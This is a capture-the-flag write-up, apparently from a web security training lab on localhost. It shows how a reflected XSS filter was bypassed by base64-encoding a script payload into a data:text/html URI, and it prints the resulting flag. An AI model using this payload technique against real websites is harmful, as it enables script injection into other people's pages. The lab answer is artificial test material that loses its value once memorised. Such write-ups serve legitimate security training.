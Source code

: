 ## [Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)

How to defend: validate and sanitize input

a weirdly loaded image http://localhost:8080/index.php?page=media&src=1

after trying a million things

we can bypass the url encoding with base 64, and do an xss attack

```
➜  darklyProject git:(master) ✗ echo '<script>alert()</script>' | base64
PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==
```

this gives us a double wrong answer as http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==

but putting something in the alert

```
➜  darklyProject git:(master) ✗ echo '<script>alert("ok")</script>' | base64
PHNjcmlwdD5hbGVydCgib2siKTwvc2NyaXB0Pgo=
```

gets us the flag

```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
